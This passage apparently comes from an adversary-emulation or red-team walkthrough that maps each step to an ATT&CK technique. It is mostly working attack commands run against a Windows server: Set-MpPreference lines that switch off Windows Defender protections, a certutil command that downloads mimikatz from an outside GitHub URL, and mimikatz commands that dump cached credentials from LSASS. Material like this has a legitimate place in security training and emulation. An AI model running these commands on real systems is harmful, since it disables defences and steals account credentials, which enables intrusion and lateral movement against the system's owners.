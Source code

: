 Is Windows Defender running?

**Step 6**
```PowerShell
[ITSERVER:PowerShell] Get-MpComputerStatus
```
ATT&CK Techniques: `T1057`

### Security tools tampering

We see that we have admin privileges on this system, let's disable some security tools to make our life simpler...

> [!IMPORTANT]
> Re-open PowerShell as Administrator

Now let's disable a bunch of useful things in Windows Defender. We can turn off realtime monitoring (which includes antivirus), behavior monitoring, script scanning, and blocking at first sight.

**Step 7**
```PowerShell
[ITSERVER:PowerShell] Set-MpPreference -DisableRealtimeMonitoring 1
[ITSERVER:PowerShell] Set-MpPreference -DisableBehaviorMonitoring 1
[ITSERVER:PowerShell] Set-MpPreference -DisableScriptScanning 1
[ITSERVER:PowerShell] Set-MpPreference -DisableBlockAtFirstSeen 1
```
ATT&CK Techniques: `T1562.001`

Now the system won't put up a fight when we drop malware on it.

### Dumping credentials

Our account is local and not joined to the domain which makes it a bit harder to query Active Directory and move laterally or escalate privileges.
During situational awareness we saw that the system is domain-joined and a domain user is logged in.
Let's use a popular tool `mimikatz` to dump locally cached credentails and get an NTLM hash of that AD user.

We can transfer the tool using `certutil`

**Step 8**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/mimikatz.exe C:\Temp\m.exe
```
ATT&CK Techniques: `T1105`

And then execute it to dump the credentials from LSASS process (make sure PowerShell is running with admin privileges)

**Step 9**
```PowerShell
[ITSERVER:PowerShell] C:\temp\m.exe

[ITSERVER:mimikatz] privilege::debug
[ITSERVER:mimikatz] sekurlsa::logonpasswords
```
ATT&CK Techniques: `T1003.001`
